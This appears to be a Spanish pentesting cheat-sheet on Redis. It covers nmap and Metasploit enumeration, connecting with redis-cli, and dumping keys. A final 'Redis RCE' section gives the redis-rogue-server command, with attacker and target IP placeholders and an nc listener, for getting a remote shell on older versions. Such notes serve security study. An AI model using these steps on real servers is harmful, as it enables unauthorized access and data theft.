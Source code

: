```yaml
---
title: "Redis"
layout: "single"
category: "Servicios comunes"
slug: "servicios-comunes/redis"
date: "2025-09-30"
---
```


# Redis
Redis es un almacén de **estructuras de datos en memoria**, de código abierto (licencia BSD), utilizado como **base de datos**, caché y broker de mensajes.

Por defecto, Redis utiliza un protocolo basado en texto plano, pero debes tener en cuenta que también puede implementar **ssl/tls**.

#### Enumeración
```bash
nmap --script redis-info -sV -p 6379 <IP>
msf> use auxiliary/scanner/redis/redis_server
```

Si damos con un fichero de configuración, las líneas mas importantes son:
* requirepass (en caso de tener contraseña la veremos ahí)

#### Conexion a servidor Redis
```bash
### SIN CONTRASEÑA
redis-cli -h 192.168.1.100 -p 6379 
### CON CONTRASEÑA
redis-cli -h 192.168.1.100 -p 6379 -a 'tu_contraseña'
```

#### Comandos básicos
```bash
INFO
CONFIG GET *

### Obtener datos
INFO keyspace
SELECT 1 # [ ... Indicate the database ... ]
KEYS * # [ ... Get Keys ... ]
GET <KEY> # [ ... Get Key ... ]

```

##### Obtener datos (explicado)
```bash
####VER LAS BASES DE DATOS
INFO keyspace
# Keyspace
db0:keys=5,expires=0,avg_ttl=0 #### AQUI VEMOS QUE TENEMOS UNA BASE DE DATOS, LA 0. si tuvieramos mas, veriamos algo así:

db0:keys=5,expires=0,avg_ttl=0
db1:keys=5,expires=0,avg_ttl=0
db2:keys=5,expires=0,avg_ttl=0
...


#### OBTENER LOS DATOS
SELECT 0 # seleccionar base de datos
KEYS * # vert todas "tablas"
GET <KEY_NAME> # "ver el valor de esa clave / tabla"

###################################
########DEPENDE EL TIPO DE DATOS, E LUGAR DE GET debemos usar estos otros.
if value is of type string -> GET <key>  
if value is of type hash -> HGETALL <key>  
if value is of type lists -> lrange <key> <start> <end>  
if value is of type sets -> smembers <key>  
if value is of type sorted sets -> ZRANGEBYSCORE <key> <min> <max>

# EJEMPLO
lrange <key> 0 100 (los numeros de 0 a 100 puede variar, es ir probando)
```

### Redis RCE
[Redis-rogue-server.py](https://github.com/n0b0dyCN/redis-rogue-server)
Con esta herramienta puedes obtener una shell interactiva para versiones igual o inferior a la 5.0.5
*uso*
```bash
python3 ./redis-rogue-server.py --rhost <TARGET_IP> --lhost <ACCACKER_IP> --passwd='CONTRASEÑA_EN_CASO_NECESARIO'

##NOS PEDIRÁ LA IP DE ATACANTE Y UN PUERTO
nc -nlvp <puerto>
```





